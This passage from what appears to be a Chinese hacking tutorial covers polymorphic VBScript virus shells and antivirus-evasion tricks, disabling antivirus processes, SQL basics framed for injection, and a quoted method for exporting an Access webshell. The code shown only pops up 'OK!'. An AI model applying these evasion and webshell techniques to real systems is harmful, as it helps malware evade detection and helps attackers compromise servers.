str = "cswpire.tohco"""!K"
For i = 1 To Len(str) Step 3
    rev = rev + StrReverse(Mid(str, i, 3))
Next
Execute rev
WScript.Echo str & Chr(13) & Chr(13) & rev
```

这个壳就是弹出一个对话框显示 `OK!`，最后一行只是为了显示其运算结果。壳的算法是每 n 个字符就反转顺序一次。n 在这里等于 3。不过这个壳是死的，起不到减少特征码的效果，反而增加了特征码，如 `cswpire`。

下面给大家举一个更复杂的例子，代码如下：

```vb
str="wscript.echo
"""OK!""":randomize:key=int(rnd*8+2):str=rev:str=replace(str,chr(34),chr(34)+chr(34)):set
aso=createobject(""ADODB.Stream""):with aso:.open:.writetext ""str=
"""+chr(34)+str+chr(34)+"":key="""+cstr(key)+"":str=rev:execute
str:function rev():for i=1 to len(str) step key:rev=rev+strreverse(mid(str,i,key)):next:end
function"":.savetofile
wscript.scriptfullname,2:end with":key=1:str=rev:execute str:function rev():for i=1 to len
(str) step key:rev=rev+strreverse(mid(str,i,key)):
next:end function
```

需要注意的是，上面的代码只有一行，没有回车换行，它的效果和上一段代码是一样的：弹出一个对话框显示 `OK!`。但是，代码执行完后，可能就变成下面这样的内容了：

```vb
str=".tpircswKO""
ohceodnar:""!yek:ezimdnr(tni=ts:)2+8*ts:vet=rcalper=rhc,rts(ehc,)
43(rhc+)43(rs:))43(rc=osa
tejboetaerODA""(tceaertS.BDhtiw:)""mpo.:osa tirw.:nes""
texterhc+""=rtrts+)43()43(rhc+""=yek:""+ek(rtsc+rts+ver=(esrever,rts(dim:))
yek,idne:txenoitcnuf evas.:""nw elifots.tpircsluftpirc:2,
emanlgiw dne"key=8:str=rev:execute str:function rev():for i=1 to
len(str) step key:rev=rev+strreverse(mid(str,i,key)):next:end function
```

每次运行之后，代码都变成了不同的内容，也就是说这个脚本是自变形的。这个壳的算法没有变，但是 n 却是随机改变。但是，加过壳的内容每次都不同，壳本身还没有任何改变。为了更好的免杀，脚本的壳也可以动态改变，这就要用到所谓的多态技术了。

和 EXE 病毒不同的是，EXE 病毒多态是用来反动态查杀的，而脚本的多态只是对付静态查杀，两者存在的差异比较大。不影响功能的变形方法，除了上面介绍的外，还有以下几种：

- 随机改变大小写。
- 冒号（:）与回车符随机互换（字符串内和 `then` 之后的冒号除外）。
- 字符串分割时，“+”与“&”随机互换。
- `()`、`+`、`-`、`*`、`/`、`&` 等字符两边任意添加空格或续行符（`_`）和回车符的组合。
- 用自定义函数替换内置函数，即使自定义的函数只是简单地封装内置函数，但至少起到了减少关键字位置的作用。

- 4. 直接关闭杀毒软件

VBS 的功能非常强大，它可以直接查看系统正在运行的进程，如果发现是杀毒软件的进程，那么就直接关闭它，并对它的某些关键程序进行删除，让杀毒软件无法运行。

可以综合应用“语句分割”“变量名自动改变”“随机改变大小写”“+ 和 & 互换”等方法，从而达到类似于在 Java 中的混淆器的效果。

用户一旦浏览了含有病毒的网页，即可在毫无察觉的情况下立即感染该病毒，从而对系统造成不同程度的破坏，如默认主页被修改；主页设置被屏幕锁定，Internet 选项无效不可更改；默认的 IE 搜索引擎被修改；IE 标题栏添加非法信息；Outlook Express 标题栏被添加非法信息；鼠标右键菜单被添加非法网站链接；在 IE 工具栏非法添加按钮；锁定地址栏的下拉菜单并添加文字信息；IE 菜单“查看”下的“源文件”项被禁止。以上都是网页病毒的一般表现，更恶意的网页则是破坏文件系统，或自动安装木马程序等。

好了，到这里我就简单地把脚本病毒讲完了，至于完整的脚本病毒或其他病毒的代码，大家可以去 http://www.62nds.co.nz/pg/e90.php 这个网站看看。它里面收集了一些病毒的完整代码，可以供大家研究之用。

本章的基础知识主要讲解了 VBScript 和 JavaScript。通过这些学习，大家对客户端的脚本语言应该有一个基本的了解了，至少在黑客方面的基础知识都差不多涉及到了。然后在这个基础之上让大家初步认识了通用防注入系统，通过几个实际的跨站攻击例子让大家更为熟悉跨站漏洞。最后还介绍了脚本病毒，让大家在以后的查毒过程中至少对脚本病毒的特性有一定的认识。

上面的知识你是否掌握了呢？我想一路跟着我来的朋友一定都懂了吧。如果还有什么不懂的地方，可以回到前面去复习一下。俗话说得好，读书百遍，其义自见。在下一章我们将开始学习服务端的脚本语言 ASP 了，我想对脚本黑客技术感兴趣的朋友一定很想了解它吧，那就跟着偶走咯！

**声明：** 本章中部分 **JavaScript** 的基础知识参考了由海洋出版社出版的《JavaScript 动态网页编程实例手册》，该书由张长富等人编著；本章中部分 **VBScript** 的基础知识参考了由电子工业出版社出版的《ASP+SQL Server 动态网站开发》，该书由杨世锡等人编著；本章中部分脚本病毒知识参考了由清华大学出版社出版的《计算机病毒与反病毒技术》，该书由张仁斌等人编著。

你从本章可以学到如下几点：

- 1、关系数据库简介
- 2、SQL 的数据查询
- 3、SQL 的数据更新
- 4、SQL Server 和 MySQL 下的高级黑客技术

## 第五章　数据库基础

通过第二章的学习，我想大家对 SQL 注入攻击应该都非常熟悉了。在我们手工注入的时候，通常我们是要得到管理员的密码。在得到管理员密码的过程中，我们用到的都是数据库知识，因为管理员的密码是放在数据库中。为了得到管理员的密码，我们当然要操作数据库了，这里所做的操作就是查询数据库。

当然在脚本黑客技术中，数据库的作用远远不止这些，比如通常我们还可以利用数据库的差异备份、LOG 备份来获得木马等等。在脚本黑客技术中，数据库占有非常重要的位置，不说别的，就单单是数据库里的数据一般是系统里最值钱这一点就足以证明。在本章我就给大家介绍数据库方面的知识，里面涉及的知识虽然枯燥一点，但是大部分都与黑客相关，所以大家可不要打瞌睡哦，跟紧我的步伐大步前进吧！

### 5.1 数据库概述

在我们计算机世界中，所有信息都是以数据的形式存储的，而这些数据的集合我们就可以简单地称为数据库了，这是我们最通俗和简单的对数据库的理解。数据库可以是某个电子表格程序，比如我们常用的电子表格处理软件 Excel 里的一份地址清单，也可以是中国移动用来记录每天发送短信次数的情况、精确计算出来的每次通话收费、每月话费账单、欠费情况等信息的日志文件。

一个简单的数据库可以是一种单机操作，有关的数据只驻留在一台特定的本地计算机里供单个用户使用，这方面具有代表性的数据库有 FoxPro；而一个复杂的数据库可能有几万人甚至更多人在同时使用，比如我们的中国移动，那一秒钟就不知道有多少人在同时发短信或打电话了，相关的数据散布在多台计算机和几十个硬盘上。一个数据库可以小到只有几千个字节，也可以大到要以 TB（1TB=1024G，1G=1024M，1M=1024KB）作为计量单位。

在我们日常生活中，人们经常使用“数据库”这个词来称呼各种实实在在的数据、最终的数据库文件、各种数据库系统（如 MySQL、SQL Server）或某种数据库客户端软件，其实这些都对数据库产生了一定的误会。下面我就给出数据库系统和数据库的定义，让大家更清楚地理解数据库系统和数据库。

数据库系统主要经历了第一代网状和层次数据库系统和第二代关系型数据库系统的发展。关系型数据库依靠着结构化查询语言 SQL 的提出而得到广泛应用。目前市场的主流数据库产品包括 Oracle、MySQL、SQL Server、SyBase 等，都是属于关系型数据库系统。

目前数据库正向着面向对象数据库系统方面发展。

数据库（DataBase）就是一个由一批数据构成的有序集合，这个集合通常被保存为一个或多个彼此之间相关的文件。这些数据被分门别类地存放在一些结构化的数据表（table）里，而数据表之间又往往会形成种种内在的交叉引用关系。存在于数据表之间的这种关系（relation）使数据库又被称为关系（型）数据库。

也许上面的定义很多朋友不能够理解，特别是以前没有接触过数据库的朋友。为了把事情说得更加明白和透彻，下面我给大家举个例子。假设某个公司有一个由 3 个数据表构成的数据库。第 1 个数据表保存着该公司的顾客名单数据（如姓名、地址等信息），第 2 个数据表保存着该公司的产品数据，第 3 个数据表保存着该公司的订单数据。在这 3 张数据表之间建立起必要的关系之后，这家公司的员工就可以使用订单数据去访问另外两个数据表里的数据了（如通过顾客编号和产品代码等）。

上面我们已经提及到了在计算机世界里是以数据形式存储信息的。针对信息世界，数据库系统的表达所使用的概念有：“字段”，用来表达实体的属性；“记录”，是字段的有序集合，用来表达实体。上面这些大家可能现在还不能够理解，不过不用急，在后面我就会给大家详细地介绍，这里就给大家一个新的认识而已。

数据库管理系统（DBMS）就是指创建、管理和使用数据库的软件系统。DBMS 是数据库的核心，它是位于操作系统和用户软件之间的数据库管理软件，其英文名为：DataBase Manage System。

### 5.2 关系数据库

#### 5.2.1 关系模型概述

关系数据库是目前最为流行的数据库，基本上统治了整个数据库世界，比如 SQL Server、MySQL、Oracle 等等。关系数据库的基础是数据模型，关系模型主要包括数据结构、数据操作和一组完整性规则。

关系模型的结构非常简单，在关系模型中，现实世界中的实体与实体之间的联系基本都是用关系来表达。从我们用户的角度来讲，关系模型中的数据的逻辑结构就是由行和列组成的二维表格。

关系模型就是一张二维表格，它使用表格来描述实体之间的关系。在表格中，每一列称为属性，有时也称为字段或者域；每一行数据称为一条记录。关系模型既能反映属性之间的一对一关系，又能够反映属性之间的一对多关系，还能够反映属性之间的多对多关系。关系模型具有一些优点，例如：数据结构简单、概念清楚，符合我们的习惯；能够直接反映出实体之间的一对一、一对多、多对多的三种关系；全部是表格框架，通过公共属性可以建立数据表与数据表之间的联系，即实体与实体之间的联系。典型的关系模型如表 5-1 所示。

表 5-1 课程关系

| 课程号 | 课程名称 | 任课老师 | 所属系 |
|---|---|---|---|
| C01 | 数据库教程 | 张平 | 计算机系 |
| C02 | 操作系统 | 李丽 | 计算机系 |
| C03 | 计算机病毒 | 刘冰 | 计算机系 |

以表 5-1 来说明，一个“课程”关系可以看成是若干门课程的集合。集合中的元素称为元组，在课程关系中一个元组就是表格中的一行。一个元组又由若干个属性组成。给属性起的名称就是属性名，如课程关系中的“课程号”“课程名”等。我们常常为了能够唯一标识关系中的某个元组，规定表中的某个属性或属性组的取值唯一，称为主键。例如我们在学校的时候，学校为我们每一个人分配了一个学号，那么这个学号在学校就是唯一的，学校在统计比如成绩的时候就可以用它作为主键。也许有人会说用名字也可以，当然这句话如果是在信息量比较小的情况下可能可以，但是一般情况下，如果用姓名来做主键的话，如果出现了两个或更多的相同名字，那么我们在查询数据库的时候就会出现不准确的结果。所以主键是唯一能够标识关系中的某个元组。

关系模型中常用的关系操作包括：查询、插入、删除、修改等操作。其中查询包括：选择（Select）、连接（Join）、除（Divide）、并（Union）、交（Intersection）、差（Difference）。关系操作是一种集合操作，其中“查询”操作是关系操作的基础。

### 5.3 关系数据库语言 SQL 概述

SQL 是英文 Structured Query Language 的简称，中文名是结构化查询语言，是进行数据库操作的标准语言。SQL 语言的主要功能就是同各种数据库建立联系，进行沟通。按照 ANSI（美国国家标准协会）的规定，SQL 被作为关系型数据库管理系统的标准语言。SQL 语句可以用来执行各种各样的操作，例如更新数据库中的数据、从数据库中提取数据等。目前，绝大多数流行的关系型数据库管理系统，如 Oracle、Sybase、Microsoft SQL Server、Access 等都采用了 SQL 语言标准。虽然很多数据库都对 SQL 语句进行了再开发和扩展，但是包括 Select、Insert、Update、Delete、Create 以及 Drop 在内的标准 SQL 命令仍然可以被用来完成几乎所有的数据库操作。

一个 SQL 数据库是一组表的汇集。每一个表都是由行和列组成的二维表格，通过数据定义语言来定义。在 SQL 数据库中的表分为视图和基表，其中基表是实际存在的表，而视图是由基表或其他视图中的记录临时组成的虚表。

SQL 的功能非常强大，它可以实现以下功能：

- 1. 建立数据库的表格
- 2. 改变数据库系统环境设置
- 3. 针对某个数据库或表格，授予用户存取权限
- 4. 对数据库表格建立索引值
- 5. 修改数据库表格结构（新建、删除或修改表格字段）
- 6. 对数据库进行数据的新建
- 7. 对数据库进行数据的删除
- 8. 对数据库进行数据的修改
- 9. 对数据库进行数据的查询

SQL 语言共分为四大类：数据查询语言 DQL（以著名的 SELECT 语句为代表）；数据操纵语言 DML（INSERT、DELETE、UPDATE 等语句）；数据定义语言 DDL（用来创建数据库对象——表、视图、同义词、索引等）；数据控制语言 DCL（用来授予或回收访问数据库的某种特权，并控制数据库操纵事务发生的时间及效果，对数据库实行监控等）。

### 5.4 利用 SQL 进行数据查询

#### 5.4.1 创建数据表

要对数据进行查询，事先肯定要先建立数据表，不然怎么查询。要在数据库中创建新表，使用 CREATE TABLE 即可。其语法为：

```sql
CREATE TABLE tablename (field type [(size)] [NOT NULL]{, field type [(size)] [NOT NULL]...}[,PRIMARY KEY(field{,field...})]);
```

说明：table 参数用于指定新建表的名称。  
field 用于指定在新表中创建的新字段的名称，每创建一个新表必须至少建立一个字段。  
type 参数用来指定新建字段的数据类型。  
size 参数用于指定文本及二进制字段的长度。  
NOT NULL 是 SQL 的关键字，使用该参数则新记录的该字段值必须是有效的数据。  
PRIMARY KEY 是规定哪个字段为主键。

例如，我们创建一个 “HACK” 的表，该表中有四个字段。

```sql
CREATE TABLE HACK(id char(4),name varchar(50),city varchar(50),age char(150),
PRIMARY KEY (id));
```

在这个表中，有 ID、name、city、age 四个字段，其中 ID 为主键。在 SQL 中数据类型由 13 种基本类型组成，在这里我就不详细列举了，在光盘自带的电子书《SQL 中文参考手册》中有非常详细的说明。

上面我们演示了 CREATE 的基本语法格式，在该语句中含有很多中括号（[]）、大括号（{}）等一些符号，这些都是 SQL 语句的语法规则，下面我就给大家详细讲解一下。

- 1. 大写字母：在 SQL 语句中大小写是不区分的，我们在语法中把关键字规定为大写只是为了便于阅读。
- 2. 小写字母为用户可指定的内容，例如 CREATE 的语法中的 tablename，创建表时可以由我们自己定义的表名（例如 HACK）所代替。
- 3. 在语法描述中有一些特殊字符不能出现在用户书写的语句中，例如：{}、[]、|。
- 4. [] 中的内容为可选的，例如语法中的 [NOT NULL] 中的 NOT NULL 可省略。
- 5. {} 表示若干个结构相似的内容的组合。例如，{, field type [(size)] [NOT NULL]...} 表示可定义多个列，列的定义之间用 “,” 分割。
- 6. | 表示在多个可选择的内容中选择其中一个。例如如下语句：SELECT [ALL|DISTINCT] select_list，其中的 select_list 可用 ALL 或 DISTINCT 限定。

#### 5.4.2 SQL 数据查询

在 SQL 语言中，要实现对数据表中的数据进行查询功能，就要用到大名鼎鼎的 SELECT 语句了。这是一个功能强大、使用灵活的语句，它的语法格式为：

```sql
SELECT [ALL|DISTINCT] {expr[[AS]c_alias{,expr[[AS]c_alias]...} }
FROM tableref{,tableref...}
[WHERE <search_condition>]
```

expr 为要查询的列名，多个列名之间使用 “,” 分隔。  
tableref 为查询的表。  
search_condition 为查询的条件。  
c_alias 为别名。

##### 1、简单查询

示例 5-1 要求我们查询表 HACK 中所有黑客的信息。

```sql
SELECT * FROM HACK
```

上述的查询语句省略了 WHERE 子句，因此它实现了对 HACK 表中所有信息的查询。  
示例 5-2 要求在 HACK 表中查询城市为“长沙”的黑客的 id 和 name。

```sql
SELECT id,name
FROM HACK
WHERE city="长沙"
```

##### 2、去掉查询结果中的重复记录

在我们的查询过程中，往往会常常出现重复的记录，有的时候我们需要重复的记录，而有的时候并不需要。SELECT 语句已经为我们提供了这个功能，如果要去掉查询结果中出现的相同元组记录，可以使用 DISTINCT 关键字，例如：

```sql
SELECT DISTINCT id
FROM HACK
```

如果要保留查询结果中存在的相同元组，那么就需要使用 ALL 关键字，例如：

```sql
SELECT ALL id
FROM HACK
```

##### 3、目标列中使用“*”符号

示例 5-3 演示了 “*” 的作用，查询语句为 `SELECT * FROM HACK`。它的作用是查询 HACK 表中所有的信息。“*” 在 SQL 语句中代表所查询表中所有的列。所以上面的语句等于 `SELECT id,name,city,age FROM HACK`。

##### 4、在 WHERE 子句中使用逻辑运算符

示例 5-4 演示了 WHERE 子句中使用逻辑运算符。我们要在 HACK 表中查询 id<120 且 age>25 的黑客信息。

```sql
SELECT * FROM HACK WHERE id<120 AND age>25
```

在 WHERE 子句中使用逻辑运算符主要包括 AND、OR、NOT。说到这三个运算符号，这里就提一下它们的运算规则，AND 的运算规则如表 5-2 所示；OR 的运算规则如表 5-3 所示；NOT 的运算规则如表 5-4 所示。  
AND 运算符是对两个表达式进行逻辑“与”运算，result=expression1 AND expression2。其中 result 为结果，expression1 和 expression2 为任意表达式。

| expression1 的结果 | expression2 的结果 | AND 运算之后的结果 |
|---|---|---|
| 真 | 真 | 真 |
| 真 | 假 | 假 |
| 假 | 真 | 假 |
| 假 | 假 | 假 |

表 5-2 AND 的运算规则

OR 运算符是对两个表达式进行逻辑“或”运算，result=expression1 OR expression2。其中 result 为结果，expression1 和 expression2 为任意表达式。

| expression1 的结果 | expression2 的结果 | OR 运算之后的结果 |
|---|---|---|
| 真 | 真 | 真 |
| 真 | 假 | 真 |
| 假 | 真 | 真 |
| 假 | 假 | 假 |

表 5-3 OR 的运算规则

NOT 运算符是对表达式执行逻辑非运算，result=NOT expression。其中 result 为结果，expression 为任意表达式。

| expression 的结果 | NOT 运算之后的结果 |
|---|---|
| 真 | 假 |
| 假 | 真 |

表 5-4 NOT 的运算规则

在 WHERE 子句中，使用的操作符主要有：<（小于）、<=（小于或等于）、>（大于）、>=（大于或等于）、=（等于）、<>（不等于）、Between（在某个取值范围内）、Like（匹配某个模式）、In（包含在某个值的列表中）。下面我们就来详细讲一下 Between 和 Like 操作符，特别是在 Like 操作符，它在我们搜索注入方面可是最重要的理论知识。

Between 操作符返回的是位于我们所说明的界限之内的所有记录值。比如我们要查询 HACK 表中 id 字段 1 到 100 之间的全部记录。

```sql
SELECT * FROM HACK WHERE id Between 1 AND 100
```

Like 操作符所起的作用就是模糊查询，它在我们的搜索方面运用得最多。目前很多系统并没有对搜索的地方进行过滤，所以我们可以利用它来进行注入。要使用 Like 进行模糊查询，必须还要配合通配符才能够完成。比如我们要查询 HACK 表中 city 字段值中含有“京”字的所有黑客信息。

```sql
SELECT * FROM HACK WHERE city LIKE '%京%'
```

查询的结果就是 city 字段值中含有“京”的黑客信息，比如可以查到北京的、南京的等等。不过需要注意的是，在 Like 后的查询条件中要用单引号或双引号括起来。

Like 操作符共有以下 4 种通配符，它们的含义如下：

- %：代表零个或者多个任意字符
- _：代表一个任意字符
- []：指定范围内的任意单个字符
- [^]：不在指定范围内的任意单个字符

上面说的比较理论，大家可能都还没完全理解透，下面我给大家举一些例子。

- Like "BR%"：返回以 BR 开始的任意字符串
- Like "%een"：返回以 een 结束的任意字符串
- Like "%en%"：返回包含 en 的任意字符串
- Like "_en"：返回以 en 结束的 3 个字符串
- Like "[CK]%"：返回以 C 或者 K 开始的任意字符串
- Like "[S-V]ing"：返回长为 4 个字符的字符串，结尾是 "ing"，开始是从 S 到 V
- Like "M[^c]%"：返回以 "M" 开始且第二个字符不是 "c" 的任意字符串

##### 5、在目标列中使用别名

在上面的 HACK 表中，我们所有的字段都是使用的英文，有的时候如果我们看英文有点不习惯，那么就可以使用 SQL 中的一种别名方法来给字段重新命名。使用 AS 关键字就可完成。例如把 HACK 表中的字段全部换成中文：

```sql
SELECT id AS 标识, name AS 姓名, city AS 城市, age AS 年龄 FROM HACK
```

##### 6、对查询结果进行排序

我们可以使用 ORDER BY 子句对查询结果按照一个或多个属性列进行排序。ORDER BY 的语法是这样的：  
`ORDER BY order_by_expression[ASC|DESC]{, order_by_expression[ASC|DESC]}`

其中，order_by_expression 是要指定排序的列，可以将排序的列指定为列名、列的别名或表达式。ASC 表示按照升序排列，DESC 表示按照降序排列，默认的情况下是按照升序排列。还是用 HACK 表来做例子。

比如要查询 city 字段中含有“京”字的所有黑客信息，并按照 id 字段的降序排列。

```sql
SELECT * FROM HACK WHERE city LIKE '%京%' ORDER BY id DESC
```

我们还可以这样查询 city 字段中含有“京”字的所有黑客信息，并按照 age 字段的降序排列；当 age 字段值相同时，按照 id 字段的升序排列。

```sql
SELECT * FROM HACK WHERE city LIKE '%京%' ORDER BY age DESC, id ASC
```

##### 7、在 SELECT 中使用集合函数

为了进一步增强查询功能，SQL 还提供了许多集合函数，主要有如下几种：

- `COUNT([DISTINCT|ALL] *)` 统计元组的个数。DISTINCT 关键字指明重复元组只统计一次，ALL 指明重复元组需要重复统计。
- `COUNT([DISTINCT|ALL] column_name)` 统计 column_name 列非空的元组数目。
- `SUM([DISTINCT|ALL] column_name)` 计算 column_name 列的值的总和，此列必须是数值型。
- `AVG([DISTINCT|ALL] column_name)` 计算 column_name 列的值的平均值，此列必须是数值型。
- `MAX([DISTINCT|ALL] column_name)` 返回 column_name 列中的最大值。
- `MIN([DISTINCT|ALL] column_name)` 返回 column_name 列中的最小值。

比如我们要查询 HACK 表中年龄最大的、最小的和平均的年龄。

```sql
年龄最大的：SELECT MAX(age) FROM HACK
年龄最小的：SELECT MIN(age) FROM HACK
平均的年龄：SELECT AVG(age) FROM HACK
```

##### 8、对查询结果进行分组

在查询语句中，我们还可以使用 GROUP BY 子句对查询结果按某一列或多列值进行分组。语法为：  
`GROUP BY [ALL] group_by_expression[,…..n]`

例如，要查询 HACK 表中年龄相同的黑客信息。

```sql
SELECT * FROM HACK GROUP BY age
```

如果分组后还要按照某种条件对这些组进行筛选，输出满足指定条件的元组，那么我们还可以使用 HAVING 子句指定筛选条件。HAVING 子句的语法如下：  
`HAVING search_condition`  
其中 search_condition 为指定要筛选的条件。使用 HAVING 子句需要注意三个方面：

- 1. HAVING 子句只能在 GROUP BY 子句后出现，不能单独使用。
- 2. HAVING 子句只能对分组计算的结果进行筛选。
- 3. HAVING 子句不能使用别名。

##### 9、合并查询（Union Query）

合并查询（Union Query）是用于合并具有相同字段结构的两个表的内容，如果要在一个结果中集中显示不同表的内容，那么使用这个会非常有用。例如：

```sql
SELECT * FROM HACK
UNION
```

```sql
SELECT * FROM HACK1
```

这个查询结果把 HACK 和 HACK1 中的记录合并到一个结果中，它的输出和原来表中的内容是一样的。在默认的情况下，合并查询不会返回重复记录，不过我们可以在 UNION 后面加上关键字 ALL，从而让合并查询显示重复记录。

UNION 运算符允许把两个或者多个表的查询结果合并到一个查询结果中。需要特别注意的是，UNION 查询的表字段必须是一样的，而且数据类型必须能够兼容，否则不能够进行 UNION 查询。所以 UNION 查询后的结果是增加了行数，而列数依然不变。这个 UNION 查询在我们的注入攻击过程中非常重要，在后面的章节还会非常详细地讲解。

##### 10、连接查询

在我们实际的查询过程中，往往还需要同时从两个表或两个以上的表中查询数据。连接查询就允许同时从两个表或者两个以上表中查询数据，指定这些表中的某个或者某些列作为连接查询的条件。SQL 中的连接查询包括等值连接、非等值连接、自然连接等。连接查询的语法如下：

```sql
SELECT [ALL|DISTINCT] {expr [[AS] c_alias] ...}
FROM tableref, tableref
WHERE <join_condition>
```

“join_condition”为连接条件，它的一般格式如下：  
[<表名1>].[<列名1>] <比较运算符> [<表名2>].[<列名2>]  
其中比较运算符主要有：=，>，<，>=，<=，!= 或 <>。

等值连接就是比较运算符为“=”的连接，而其他的就是非等值连接。连接操作不仅可以在不同的表之间进行，也可以是一个表与它自身的连接。连接操作不仅可以在两个表中查询，而且可以是在两个或两个以上的表连接，我们称为多表连接。

##### 11、子查询

SELECT 查询语句还支持嵌套查询，所谓嵌套就是指语句里面还可以含有相类似的语句。这样说还是有点笼统，例如 SELECT 嵌套，就是指在 SELECT 查询语句中还可以含有 SELECT 语句。如果在一个 SELECT 语句中还嵌套了另外一个 SELECT 语句，那么被嵌套的 SELECT 语句我们就称为子查询。子查询需要注意的有三个地方：

- 子查询可以嵌套。
- 在子查询中不能使用 ORDER BY 子句，这个子句只对最后结果排序。
- 子查询要用括号括起来。

例如要求查询 HACK 表中与 id 号为 100 的黑客在同一个城市的所有黑客信息，代码如下：

```sql
SELECT * FROM HACK
WHERE city = (SELECT city FROM HACK WHERE id = 100)
```

当子查询返回的结果是一个集合时，我们可以使用 IN、ANY/ALL 或 EXISTS 这些叫做谓词的关键字进行判断。它们的含义分别如下：

- **[NOT] IN**：元素与某一个集合进行比较，当这一个元素包含在这个集合中，那么结果为真，否则结果为假。NOT IN 的含义与 IN 相反。
- **ANY**：含义为任何一个。例如“>ANY(子查询)”表示大于子查询结果中的某个值。
- **ALL**：含义为所有。例如“>ALL(子查询)”表示大于子查询结果中的所有值。
- **[NOT] EXISTS**：代表存在量词。例如“EXISTS(子查询)”当子查询没有返回记录时结果为假，否则结果为真，NOT EXISTS 的含义与 EXISTS 相反。

在我们的脚本攻击中，与黑客紧密相连的要属 EXISTS，下面我就详细讲一下使用 EXISTS 谓词的子查询。例如，有两个表，一个为 HACK，一个为 CRACK。CRACK 表中的字段和 HACK 中的字段是一样的。例如，要查询涉及 HACK 和 CRACK 表，可以在 HACK 表中依次取一个元组 id，然后去查询 CRACK 表。如果 CRACK 表中存在这样的元组，它的 id 值等于在 HACK 表中的值，那么 HACK 表中的当前记录返回，代码如下：

```sql
SELECT * FROM HACK
WHERE EXISTS
(SELECT * FROM CRACK WHERE id = HACK.id)
```

使用 EXISTS 谓词，如果括号内的查询结果返回为空，那么 EXISTS 的结果为假，否则就为真。

上面就是 SQL 查询语句的各种基本知识了，在上面我没有过多加入黑客技术，但是这些都是脚本黑客必须掌握的基础知识，特别是在手工入侵方面。因为我们还没有学习服务器端脚本语言，如 ASP、JSP、PHP 等，所以这里还不太好讲。总之，这里大家包括后面都要详细地看和听。虽然有点枯燥，但打好了基础对后面的学习有事半功倍的效果。

### 5.5 利用 SQL 进行数据更新

在 SQL 中用于数据更新的语句有 INSERT、UPDATE 和 DELETE，这三条语句用来对已经存在的数据库中的内容进行修改。INSERT 用于向表中插入新的记录，UPDATE 用于修改表中某一记录的值，DELETE 用于删除表中的记录，但不删除表的结构。

#### 5.5.1 INSERT 语句

INSERT 语句用于向表中添加新的记录，INSERT 的语法如下：

```sql
INSERT INTO tablename [(colname{,colname...})]
{VALUES (expr|NULL{,expr|NULL...})|Subquery}
```

当我们向指定的表中插入新的记录时，必须使用下面两种方式中的一种：

- 使用 VALUES 结构，这种情况下，一次只能够向表中插入一条记录。
- 使用子查询（Subquery）结构，这种方式可向表中插入多条记录，即可将基于其他表中的查询结果插入到当前表中。

示例 5-5 演示了向 HACK 表中插入一条新的记录，且设置 city 为 NULL。可以有两种方式实现。

```sql
第一种：INSERT INTO HACK(id,name,age)
       VALUES(101,曾云好,20)
```

这种情况下，插入记录中的 city 当前值还不知道，所以在 VALUES 列表中没有给出这个字段的值，而取其默认值（NULL）。

```sql
第二种：INSERT INTO HACK(id,name,age,city)
       VALUES(101,曾云好,20,NULL)
```

这种情况下，明确地赋予 city 字段值为 NULL。

示例 5-6 演示了将 HACK 表中 city 值为“长沙”的客户插入到 CRACK 表中。这个时候我们就要用到子查询（Subquery）结构了，其代码为：

```sql
INSERT INTO CRACK
SELECT * FROM HACK WHERE city="长沙"
```

不过，基于子查询（Subquery）结构需要注意的是：

- 基于其他表查询的 INSERT INTO 语句不需要在目标表中指出列名。
- INSERT INTO 目标表中的列名数目和顺序必须和 SELECT 目标列中的数目和顺序一致。

#### 5.5.2 UPDATE 语句

UPDATE 语句用来修改表中记录的属性值，它的基本语法格式如下：

```sql
UPDATE tablename
SET colname = {expr|NULL|(subquery)}
    {, colname = {expr|NULL|(subquery)} ...}
[WHERE search_condition]
```

UPDATE 语句使用指定表达式的值来代替满足 WHERE 条件的记录中指定列的值。UPDATE 语句同样也支持子查询（Subquery）结构。示例 5-7 演示了把 HACK 表中 city 值为“长沙”的黑客年龄全部提高 10 岁，实现语句如下：

```sql
UPDATE HACK
SET age = 10 + age
WHERE city = "长沙"
```

#### 5.5.3 DELETE 语句

DELETE 语句用于从表中删除满足条件的记录，DELETE 语句的基本语法格式如下：

```sql
DELETE FROM tablename
[WHERE search_condition]
```

示例 5-8 演示了删除 city 为“长沙”的所有黑客信息。

```sql
DELETE FROM HACK
WHERE city = "长沙"
```

示例 5-9 演示了删除 HACK 表中的所有信息。

```sql
DELETE FROM HACK
```

不过需要注意的是，DELETE 只删除 HACK 表中的所有记录，并不删除表的结构，也就是说表还是存在，只是里面的数据没了而已。

到这里我们的 SQL 基本知识也就讲完了。对于脚本黑客，有以上 SQL 知识就够了，接下来就是要学习各种数据库的知识了，因为不同的数据库都对 SQL 进行了扩展，它们有自己的特性和其他功能。当然 SQL 的知识我们也只学了一部分，对于脚本黑客来说已经够了，但是对于要深入了解 SQL 语言的朋友来说，这是远远不够的，比如我们没有对视图、数据定义和控制方面过多说明，这些对于系统学习数据库来说是非常重要的。为了满足大家对数据库系统性学习的需求，光盘中已经给大家收集了这方面的资料，大家可以去光盘中下载下来阅读。

### 5.6 SQL Server

在第一章中，我已经给大家介绍了 SQL Server 数据库的安装，相信大家还记得吧。SQL Server 是微软开发的一个功能非常强大的数据库系统。前面我们还提到了 ACCESS 数据库，但是在注入方面它们相差比较大。ACCESS 数据库的功能比较简单，一般来说对于基于 ACCESS 数据库的注入，只能够猜解得到后台数据库的密码。当然现在已经有了一种可以利用 ACCESS 数据库导出 WebShell 的方法，在后面我会给大家介绍，不过利用价值不大。相对于 SQL Server 数据库来说，如果有足够的权限，那我们可以做非常多的事情。接下来我就给大家详细讲解。

#### 5.6.1 SQL 注入 Access 导出 WebShell

在前面，我已经告诉大家目前有一种在 ACCESS 数据库下导出 WebShell 的方法，这个方法是由 lake2 兄弟提出来的，下面是我引用他这篇文章的原文：

> 已经听 N 个人说有人已经发现 SQL 注入 Access 得到 webshell 的技术了，也只是听说而已，具体细节还是不得而知。  
>  
> 最近在看的书中一章提到 Jet 的安全，然后灵光一闪，呵呵，发现了一种可以利用 access 导出 asp 的方法，分享之。  
>  
> 几个月之前网上就流传利用 SQL 注入 Access 导出数据库内容到文本文件（可导出 txt、htm、html 等格式）的方法：  
>  
> 执行上述语句，在 d:\web 目录下就会生成 test.txt 文件，其内容就是表 admin 的内容。但是导出 asp 格式就不行，会说“不能更新，数据库或对象为只读”。  
>  
> 其实控制导出文件后缀是存储在注册表的，具体键值是 HKEY_LOCAL_MACHINE\Software\Microsoft\Jet\4.0\Engines\Text\DisableExtension，默认情况下值为“!txt,csv,tab,asc,tmp,htm,html”，如果我们把 asp 也添加进去的话，呵呵，就可以导出 asp 格式的文件了。  
>  
> 这个方法跟那个调用 Access 的 Shell 函数执行命令一样，要修改注册表，所以利用不是很大。顺便提一下，前面提到的导出文本文件的方法，如果不知道 web 路径貌似可以导出到自己机器的哦：  
>  
